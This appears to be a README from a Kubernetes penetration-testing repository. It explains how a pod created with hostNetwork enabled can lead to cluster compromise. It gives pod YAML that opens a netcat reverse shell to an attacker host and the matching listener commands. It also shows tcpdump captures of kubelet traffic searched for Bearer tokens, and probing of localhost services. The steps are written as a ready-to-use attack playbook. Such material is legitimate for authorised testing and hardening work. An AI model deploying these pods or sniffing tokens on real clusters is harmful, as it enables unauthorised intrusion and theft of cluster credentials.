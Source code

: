 ## You can create a pod with only hostNetwork

If you only have `hostNetwork=true`, you can't get RCE on the host directly, but if your cross your fingers you might still find a path to cluster admin. 
There are two potential escalation paths:  
* **Sniff traffic** - You can use tcpdump to sniff unencrypted traffic on any interface on the host. You might get lucky and find service account tokens or other sensitive information that is transmitted over unencrypted channels.
* **Access services bound to localhost** - You can also reach services that only listen on the host’s loopback interface or are otherwise blocked by network polices. These services might turn into a fruitful privesc path.

# Pod Creation

## Create a pod you can exec into
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-hostnetwork
  labels:
    app: pentest
spec:
  hostNetwork: true
  containers:
  - image: ubuntu
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
    name: hostnetwork
  #nodeName: k8s-control-plane-node # Force your pod to run on a control-plane node by uncommenting this line and changing to a control-plane node name  
  ```
[hostnetwork-exec.yaml](hostnetwork-exec.yaml)

#### Option 1: Create pod from local yaml 
```bash
kubectl apply -f hostnetwork-exec.yaml   
```

#### Option 2: Create pod from github hosted yaml
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/hostnetwork/hostnetwork-exec.yaml  
```

### Exec into pod 
```bash
kubectl -n [namespace] exec -it pod-hostnetwork -- bash
```

## Or, create a reverse shell pod
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-hostnetwork-revshell
  labels:
    app: pentest
spec:
  hostNetwork: true
  containers:
  - image: busybox
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "nc $HOST $PORT  -e /bin/sh;" ]
    name: hostnetwork-revshell
  #nodeName: k8s-control-plane-node # Force your pod to run on a control-plane node by uncommenting this line and changing to a control-plane node name
  restartPolicy: Always
  ```
[hostnetwork-revshell.yaml](hostnetwork-revshell.yaml)

#### Set up listener
```bash
nc -nvlp 3116
```

#### Create the pod
```bash
# Option 1: Create pod from local yaml without modifying it by using env variables and envsubst
HOST="10.0.0.1" PORT="3116" envsubst < ./yaml/hostnetwork/hostnetwork-revshell.yaml | kubectl apply -f -
```

#### Catch the shell and chroot to /host 
```bash
~ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
```

# Post Exploitation 

#### Install tcpdump and sniff traffic 
**Note:** If you can't install tools to your pod (no internet access), you will have to change the image in your pod yaml to something that already includes `tcpdump`, like https://hub.docker.com/r/corfr/tcpdump

```bash
apt update && apt -y install tcpdump net-tools netcat
```
You now have a few options for next steps: 

See if the `kubelet` read port (10255/tcp) is open on any of the node's IPs
```bash
nc -zv 10.0.0.162 10255
Connection to 10.0.0.162 10255 port [tcp/*] succeeded!
nc -zv 172.17.0.1 10255
Connection to 172.17.0.1 10255 port [tcp/*] succeeded!
```

If the read port is open, run `tcpdump`, recording the output to a file for a few minutes.

**Warning:** Sniffing on an interface with a lot of traffic can cause the interface to DROP traffic, which is not what you want in an production environment. I suggest picking one port at a time for your packet captures (e.g., 10255, 80, 8080, 3000 25, 23)
**Warning:** Always run `tcpdump` with the `-n` flag. This turns off name resolution, and if you don't, the name resolution will bring the capture, and potentially the host, to its knees. 

```bash
tcpdump -ni [host or docker interface name] -s0 -w kubelet-ro.cap port 10255
```
Stop the capture and read the file with `tcpdump`.  Tip: Use the `-A` flag to only show the printable characters and hunt for things like tokens with `grep`. 

```bash
tcpdump -ro kubelet-ro.cap -s0 -A
tcpdump -ro kubelet-ro.cap -s0 -A | grep Bearer
```

Cross your fingers and look for secrets.  If you are lucky, you might even get a jwt token. If you are really lucky, that token might be associated with a service account in `kube-system`.


#### Another path: Investigate local services
```bash
curl https://localhost:1234/metrics
```

#### Attacks that apply to all pods, even without any special permissions
* Cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate Impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test.
